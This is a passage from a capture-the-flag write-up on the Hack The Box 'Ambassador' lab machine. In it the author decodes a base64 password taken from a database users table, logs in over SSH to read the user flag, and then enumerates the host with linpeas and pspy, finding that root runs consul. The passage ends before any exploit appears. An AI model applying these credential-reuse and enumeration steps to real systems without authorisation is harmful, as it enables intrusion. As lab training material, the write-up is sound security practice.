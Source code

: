 ```shell
1 row in set (0.105 sec)

MySQL [whackywidget]> 
```

In the database `whackywidget` I found the table `users` and I got creds for the user `developer` and what looks like to me a base64 encoded password, also `developer` was the targetted user to get SSH connection! I connected and got the user flag.

```bash
└─$ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d                                                           
anEnglishManInNewYork027468
                                                                                                                                                             
┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Ambassador]
└─$ ssh developer@$IP 
developer@10.129.216.66's password: 

Last login: Fri Sep  2 02:33:30 2022 from 10.10.0.1
developer@ambassador:~$ ls
snap  user.txt
developer@ambassador:~$ cat user.txt
*******************************8
developer@ambassador:~$ 
```

---

## Privilege Escalation

After connecting to the target machine using SSH, I found the directory `/snap` but didn't find anything useful there for now, so I transfered and ran `linpeas.sh` and `pspy64` on the target machine and found that `root` is periodically running `consul`:

```shell
2022/10/02 17:03:03 CMD: UID=0    PID=1041   | /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl 
``` 

So I started googling and reading about `consul` and found that it's a service networking solution to automate network configurations, discover services, and enable secure connectivity across any cloud or runtime.

Upon investigating the machine and cruising around, I found the following:

```shell
developer@ambassador:~$ find / -group consul 2>/dev/null
/etc/consul.d
/etc/consul.d/consul.hcl
/etc/consul.d/consul.env
/etc/consul.d/README
/opt/consul
/opt/consul/node-id
/opt/consul/raft
/opt/consul/raft/raft.db
/opt/consul/raft/peers.info
/opt/consul/raft/snapshots
/opt/consul/checkpoint-signature
/opt/consul/serf
/opt/consul/serf/remote.snapshot
/opt/consul/serf/local.snapshot
developer@ambassador:~$ cd /opt/consul
developer@ambassador:/opt/consul$ ls -la
total 24
drwxr-xr-x 4 consul consul 4096 Mar 13  2022 .
drwxr-xr-x 4 root   root   4096 Sep  1 22:13 ..
-rw-r--r-- 1 consul consul  394 Mar 13  2022 checkpoint-signature
```